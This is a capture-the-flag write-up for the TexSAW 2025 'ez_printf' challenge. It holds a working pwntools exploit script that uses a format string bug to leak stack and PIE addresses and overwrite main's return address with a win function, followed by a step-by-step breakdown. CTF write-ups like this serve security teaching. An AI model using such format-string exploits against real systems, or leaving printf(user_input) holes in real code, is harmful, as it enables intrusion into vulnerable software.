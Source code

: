 # Challenge ez_printf: TexSAW 2025

## PWN: Leak the stack and pie

---

## Description

As the name suggests, this is an easy printf challenge. The binary contains two `printf(user_input)` calls and a `win` function. The goal is simple: leak stack and PIE addresses using the first `printf`, then overwrite the return address of `main` with the address of `win`.

---

## Solution

We start by analyzing the binary and find that it gives us a format string vulnerability. Using this, we can leak important addresses and craft a payload to hijack the control flow.

Here's the provided exploit script:

```python
from pwn import *

context.log_level = logging.ERROR
elf = context.binary = ELF("vuln")

p = process()
# p = remote("74.207.229.59", 20221)

p.recvuntil("t twice")
p.recvline()

p.sendline(f"%1$p|%3$p|%27$p")
STACK, LIBC, PIE = p.recvline().strip().split(b"|")
STACK = int(STACK[2:], 16)
PIE = int(PIE[2:], 16) - 0x11b3

print(hex(STACK))
print(hex(PIE))

elf.address = PIE

payload = fmtstr_payload(6, {STACK - 8: elf.sym["win"] + 1}, write_size="short")
print("payload len: ", hex(len(payload)))
p.sendline(payload)

p.interactive()
```

### Step-by-Step Breakdown:

1. **Leak Addresses:**
   - Send `%1$p|%3$p|%27$p` to leak stack, libc, and PIE addresses.
   - Adjust the PIE base by subtracting the known offset (`0x11b3`).

2. **Calculate Targets:**
   - `elf.address` is updated to the new PIE base.
   - The return address on the stack (`STACK - 8`) is targeted.

3. **Craft Payload:**
   - Use `fmtstr_payload` to overwrite the return address with the `win` function's address.
   - `write_size="short"` ensures a minimal and efficient payload.

4. **Exploit:**
   - Send the crafted payload.
   - Interact with the shell after winning control.

### Final Result

Upon successful execution, the binary jumps to the `win` function, completing the challenge.

